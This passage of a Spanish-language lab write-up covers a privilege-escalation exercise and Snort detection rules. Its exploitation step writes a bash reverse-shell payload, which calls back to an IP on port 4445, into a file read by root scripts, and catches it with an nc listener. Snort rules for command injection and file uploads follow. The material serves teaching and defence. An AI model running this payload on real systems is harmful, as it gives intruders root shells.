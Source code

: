 ### 🔍 2.2 Análisis de scripts

* Revisar scripts ejecutados por cron o root.
* Buscar comandos con entradas no sanitizadas.

### 💣 2.3 Explotación

Ejemplo:

```bash
echo '$(/bin/bash -i >& /dev/tcp/10.0.2.15/4445 0>&1)' > /etc/backup-files.txt
```

Y en Kali:

```bash
nc -lvnp 4445
```

➡️ Shell como root obtenida.

---

## 🔒 Fase 3: Defensa y Detección (IDS - Snort)

### 🧷 Reglas creadas:

#### 1. Acceso a archivo sensible por HTTP

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Acceso a archivo sensible"; content:"README"; http_uri; nocase; sid:100001;)
```

#### 2. Subida de archivos por FTP

```snort
alert tcp any any -> any 21 (msg:"[ALERTA] Subida de archivo por FTP"; content:"STOR"; nocase; sid:100002;)
```

#### 3. Conexión SSH detectada

```snort
alert tcp any any -> any 22 (msg:"[ALERTA] Conexión SSH detectada"; flags:S; sid:100003;)
```

#### 4. Inyección de comandos por URL

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Inyección de comandos"; content:";cat"; http_uri; nocase; sid:100004;)
```

---

## 📘 Observaciones y Notas personales
